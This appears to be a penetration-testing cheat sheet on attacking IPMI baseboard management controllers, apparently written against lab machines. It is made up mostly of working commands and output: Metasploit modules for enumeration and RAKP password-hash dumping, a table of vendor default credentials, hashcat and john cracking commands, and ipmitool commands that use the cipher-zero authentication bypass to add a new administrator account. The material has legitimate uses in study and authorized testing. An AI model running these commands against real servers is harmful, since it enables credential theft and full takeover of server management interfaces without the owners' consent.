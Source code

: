 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```


Port : 623/udp

## Enumeration

### nmap

```shell-session
$ sudo nmap -sU --script ipmi-version -p 623 $TARGET_IP
```

### metasploit

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Default passwords

| Product | Username | Password|
| --- | --- | --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomized 8 characters (number and uppercase letters) |
| Supermicro IPMI | ADMIN | ADMIN |

## IPMI 2.0 Password Hash grabbing

Any valid username can lead to grabbing from the server the salted SHA1 or MD5 password of that user. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.

It can then be cracked offline using `hashcat` with `mode 7300`

### Getting the Hash using Metasploit

[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Cracking the hash

```
$ john -w=/usr/share/wordlists/rockyou.txt ipmi.john 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
trinity          (10.129.190.51 admin)      <====================================== 
1g 0:00:00:03 DONE (2023-04-27 19:03) 0.2538g/s 3640Kp/s 3673Kc/s 3673KC/s -xlengx-..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Authenticating without password

If you know a valid username, you might authenticate without password

#### Check if host is vulnerable

```
 sudo nmap -n -Pn -sU -T5 $TARGET_IP -p 623 --script ipmi-cipher-zero           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 21:08 BST
Nmap scan report for 10.129.181.223
Host is up (0.023s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-cipher-zero: 
|   VULNERABLE:
|   IPMI 2.0 RAKP Cipher Zero Authentication Bypass
|     State: VULNERABLE
|     Risk factor: High
|       

```

#### Exploitation

```
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user list          
IANA PEN registry open failed: Aucun fichier ou dossier de ce type
ID  Name             Callin  Link Auth  IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   ceil             true    false      true       ADMINISTRATOR
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
[...]
```

Creation of a new administrator user with known password

```
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user set name 4 rebrec 
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user set password 4 rebrec
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user set priv 4 4
```

We can then try to connect through the web interface and interact with the console
